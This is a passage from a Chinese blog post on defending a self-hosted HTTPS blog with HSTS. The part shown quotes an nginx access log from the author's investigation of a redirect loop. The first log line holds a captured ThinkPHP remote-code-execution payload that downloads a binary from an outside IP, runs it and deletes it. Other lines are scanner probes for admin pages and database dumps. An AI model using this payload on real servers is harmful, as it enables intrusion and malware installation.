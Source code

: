 ```yaml
---
title: 使用HSTS防范中间人攻击
toc: true
date: 2020-07-30 17:35:13
tags:
  - 网络
---
```


## 背景介绍

之前在自己的服务器上架设了[博客](https://zhiyulife.pp.ua)并发布到了公网，考虑到安全性还特意加了HTTPS支持。稳定运行一段时间之后前两个星期忽然就无法访问了，以下是我的破案纪实。

## 案发现场：博客无法访问

之前搭建的博客突然不能访问了，浏览器提示**重定向次数过多**，我就有了不好的预感，去服务器上看扫了一眼`nginx`访问日志，果然发现了一点猫腻。

```
41.230.21.146 - - [26/Jul/2020:04:06:50 +0800] "GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.95.168.230/taevimncorufglbzhwxqpdkjs/Meth.x86 -O thinkphp ; chmod 777 thinkphp ; ./thinkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1" 400 157 "-" "Uirusu/2.0"
93.171.157.190 - - [26/Jul/2020:04:28:29 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36"
162.243.128.166 - - [26/Jul/2020:05:10:37 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 zgrab/0.x"
177.96.170.216 - - [26/Jul/2020:05:21:32 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7"
35.220.228.17 - - [26/Jul/2020:05:33:38 +0800] "POST /spywall/timeConfig.php HTTP/1.1" 400 157 "-" "XTC"
46.105.117.7 - - [26/Jul/2020:05:36:30 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 zgrab/0.x"
141.101.105.202 - - [26/Jul/2020:05:36:30 +0800] "GET / HTTP/1.1" 301 169 "http://95.179.179.26:80/" "Mozilla/5.0 zgrab/0.x"
141.101.105.202 - - [26/Jul/2020:05:36:30 +0800] "GET / HTTP/1.1" 301 169 "https://zhiyulife.pp.ua/" "Mozilla/5.0 zgrab/0.x"
151.235.230.43 - - [26/Jul/2020:05:45:03 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7"
46.105.117.7 - - [26/Jul/2020:05:49:05 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 zgrab/0.x"
172.69.54.103 - - [26/Jul/2020:05:49:05 +0800] "GET / HTTP/1.1" 301 169 "https://95.179.179.26:443/" "Mozilla/5.0 zgrab/0.x"
172.69.54.103 - - [26/Jul/2020:05:49:05 +0800] "GET / HTTP/1.1" 301 169 "https://zhiyulife.pp.ua/" "Mozilla/5.0 zgrab/0.x"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /manager/top.asp HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /index.php/_login/in HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /11.txt HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /db/admin_yly.sql HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET / HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
139.205.177.98 - - [26/Jul/2020:05:56:58 +0800] "GET /cgi-bin HTTP/1.1" 301 169 "-" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
```